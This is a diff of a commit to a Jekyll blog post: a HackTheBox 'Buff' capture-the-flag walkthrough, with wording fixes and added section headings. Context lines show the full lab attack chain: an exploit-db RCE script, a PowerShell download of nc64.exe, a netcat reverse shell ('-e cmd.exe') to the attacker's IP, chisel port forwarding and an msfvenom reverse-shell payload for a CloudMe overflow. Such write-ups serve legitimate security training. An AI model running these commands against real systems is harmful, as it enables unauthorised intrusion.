

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2020-12-26-Hackthebox-Buff-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 2081 px. Shown: the part 258-1400 px from the top of the window at 90% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
Add buff-walkthrough

````diff
--- a/_posts/2020-12-26-Hackthebox-Buff-Walkthrough.md
+++ b/_posts/2020-12-26-Hackthebox-Buff-Walkthrough.md
@@ -66,7 +66,7 @@ by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
 Take a look at `http://10.10.10.198:8080`, we can find a subtitle that shows the running software and its version.
 ![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-12-29/2020-12-27-15-41-31.png)
 
-Using searchsploit, we can find a RCE [Gym Management System 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/48506).
+Using searchsploit, we can find an RCE [Gym Management System 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/48506).
 ```
 root@kali:~# searchsploit gym management
 --------------------------------------------------------------------------------- ---------------------------------
@@ -80,8 +80,9 @@ Gym Management System 1.0 - Unauthenticated Remote Code Execution
 Shellcodes: No Results
 ```
 
-Download (or use the one installed on Kali by default) the exploit, install the prerequisites for python2 and execute.<br>
-We can confirm that we had a shell.
+Download (or use the one installed on Kali by default) the exploit, install the prerequisites for python2 and execute the script.<br>
+We can confirm that we had a shell execution.
+
 ```
 root@kali:~# python -m pip install requests
 
@@ -91,8 +92,6 @@ root@kali:~# python -m pip install colorama
 
 ---
 
-```
-```
 root@kali:~# python 48506.py http://10.10.10.198:8080/
             /\
 /vvvvvvvvvvvv \--------------------------------------,
@@ -108,6 +107,7 @@ buff\shaun
 
 We got a web shell but we still don't have OS shell.<br>
 Try to upload `nc64.exe` using Powershell after started local HTTP server that hosts [nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------).
+#### On the localhost
 ```
 root@kali:~# ls | grep nc64
 nc64.exe
@@ -116,6 +116,8 @@ root@kali:~# python -m SimpleHTTPServer
 Serving HTTP on 0.0.0.0 port 8000 ...
 
 ```
+
+#### On the target machine
 ```
 C:\xampp\htdocs\gym\upload> powershell Invoke-WebRequest -Uri http://10.10.14.42:8000/nc64.exe -OutFile C:\xampp\htdocs\gym\upload\nc64.exe
 �PNG
@@ -138,16 +140,22 @@ C:\xampp\htdocs\gym\upload> dir
 
 ```
 
-Launch a local netcat listener and execute the `nc64.exe`.<br>
+Launch a local netcat listener and execute `nc64.exe`.<br>
 Now we got a reverse shell as `shaun`.
+
+#### On the localhost
 ```
 root@kali:~# nc -nlvp 4443
 Listening on 0.0.0.0 4443
 
 ```
+
+#### On the target machine
 ```
 C:\xampp\htdocs\gym\upload> nc64.exe 10.10.14.42 4443 -e cmd.exe
 ```
+
+#### On the localhost
 ```
 root@kali:~# nc -nlvp 4443
 Listening on 0.0.0.0 4443
@@ -171,7 +179,7 @@ type user.txt
 
 ## 3. Getting Root
 
-In `hogehoge` directory, we can find an interesting binary called `CloudMe_1112.exe`.
+In `C:\Users\shaun\Downloads>` directory, we can find an interesting binary called `CloudMe_1112.exe`.
 ```
 C:\Users\shaun\Downloads>dir
 dir
@@ -215,13 +223,17 @@ CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)
 Shellcodes: No Results
 ```
 
-Besides, we have to take a look at the default port of `hogehoge`.
+We have to take a look at the default port of `CloudMe`.
 We didn't see port 8888 during the port scanning because only `127.0.0.1` is allowed to use it
+
+#### On the localhost
 ```
 root@kali:~# cat 48389.py | grep connect
     s.connect((target,8888))
 
 ```
+
+#### On the target host
 ```
 C:\Users\shaun\Downloads>netstat -an
 netstat -an
@@ -252,6 +264,8 @@ Active Connections
 To use the exploit, we need port forwarding.<br>
 This time, [Chisel](https://github.com/jpillora/chisel) was used for the purpose.<br>
 Run a web server on the localhost, upload the windows binary and run on the target machine.
+
+#### On the localhost
 ```
 root@kali:~# chmod +x chisel
 root@kali:~# sudo ./chisel server -p 8001 --reverse -v
@@ -259,11 +273,6 @@ root@kali:~# sudo ./chisel server -p 8001 --reverse -v
 2020/12/29 12:52:49 server: Fingerprint 8fU8yodGKrxrXrjHCh9cAFAWAccwXWRyHQJCACbgB1g=
 2020/12/29 12:52:49 server: Listening on http://0.0.0.0:8001
 
-
-```
-
-
-```
 root@kali:~# ls | grep chisel
 chisel
 chisel.exe
@@ -272,19 +281,20 @@ root@kali:~# python3 -m http.server
 Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
 
 ```
+
+#### On the target machine
 ```
 C:\Users\shaun\Downloads>powershell Invoke-WebRequest -Uri http://10.10.14.42:8000/chisel.exe -OutFile chisel.exe
 powershell Invoke-WebRequest -Uri http://10.10.14.42:8000/chisel.exe -OutFile chisel.exe
-
 
 C:\Users\shaun\Downloads>chisel.exe client 10.10.14.42:8001 R:8888:127.0.0.1:8888
 chisel.exe client 10.10.14.42:8001 R:8888:127.0.0.1:8888
 2020/12/29 04:03:11 client: Connecting to ws://10.10.14.42:8001
 2020/12/29 04:03:13 client: Connected (Latency 244.1625ms)
 
-
 ```
 
+#### On the localhost
 ```
 root@kali:~# sudo ./chisel server -p 8001 --reverse -v
 2020/12/29 12:52:49 server: Reverse tunnelling enabled
@@ -297,15 +307,15 @@ root@kali:~# sudo ./chisel server -p 8001 --reverse -v
 2020/12/29 12:55:10 server: session#1: tun: proxy#R:8888=>8888: Listening
 2020/12/29 12:55:10 server: session#1: tun: Bound proxies
 
-
 ```
 
+#### On the localhost (another window)
 ```
 root@kali:~# ss -antp | grep 8888
 LISTEN 0      4096                      *:8888                      *:*     users:(("chisel",pid=117962,fd=8))
 ```
 
-Besides, we need to change the payload of the POC script.<br>
+We need to change the payload of the POC script.<br>
 Run the following command to generate it.
 ```
 root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.42 LPORT=4444 -b '\x00\x0A\x0D' -v payload -f python
````
Also changed, not shown: other parts of _posts/2020-12-26-Hackthebox-Buff-Walkthrough.md (+5 -0 lines).
